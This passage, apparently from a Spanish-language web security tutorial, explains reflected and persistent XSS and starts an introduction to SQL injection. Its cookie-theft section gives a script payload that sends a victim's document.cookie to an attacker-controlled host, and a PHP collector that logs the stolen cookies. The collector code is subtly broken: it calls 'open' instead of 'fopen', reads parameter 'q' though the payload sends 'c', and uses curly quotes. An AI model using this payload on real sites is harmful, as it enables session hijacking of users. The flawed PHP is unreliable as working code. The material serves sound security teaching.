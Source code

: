 Por ejemplo, el formulario de búsqueda que encontramos en la web anterior es un ataque Reflected XSS porque podemos introducir el Payload mediante el parámetro GET find.

(Se recomienda el uso de Firefox para explotar esta vulnerabilidad)

## [](#header-2)4.5 Persistent XSS
Ocurren cuando el payload es enviado a la web vulnerable y luego se almacena. Cuando una página de la web recibe el contenido malicioso este es guardado y mostrado a los usuarios.
Elementos como comentarios, perfiles de usuario, posts de foros son un vector potencial para vulnerabilidades XSS


## [](#header-2)4.6 Performar robo de Cookies con XSS
Como sabemos JavaScript puede acceder a cookies si no tienen la flag HTTPOnly habilitada. En múltiples ocasiones, robar una cookie significa robar una sesión.

Para obtener las cookies via XSS podemos inyectar el siguiente código:
``` js
<script type="text/javascript"> document.location='http://<$RHOST>/log.php?c='+document.cookie; 
</script>
```
Esto, si analizamos el código realiza una petición GET al dominio del atacante, con las cookies del usuario vulnerado. Para recopilar estas cookies en un archivo de texto podemos usar el siguiente código en el archivo log.php:
```php
<?php
$filename=”/tmp/log.txt”;
$fp=open($filename, ‘a’);
$cookie=$_GET[‘q’];
fwrite($fp, $cookie);
fclose($fp);
?>
``` 

# [](#header-1)5. Inyección SQL

Un ataque de inyección SQL permite a un atacante coger el control sobre las declaraciones SQL usadas por una aplicación web.

Este tipo de ataques tiene un fuerte impacto en una web porque conseguir el control sobre una base de datos significa controlar todos los datos de la misma.

Para aprender cómo ejecutar un ataque debemos tener conocimientos básicos de SQL

## [](#header-2)5.1 Consultas SQL (SOBRE CONSOLA)

Una consulta SQL se ve como la siguiente:
```sql
SELECT name, description FROM products WHERE id=9;
```
Esta consulta solicita el nombre y la descripción de la tabla de productos del producto que tiene la ID 9.
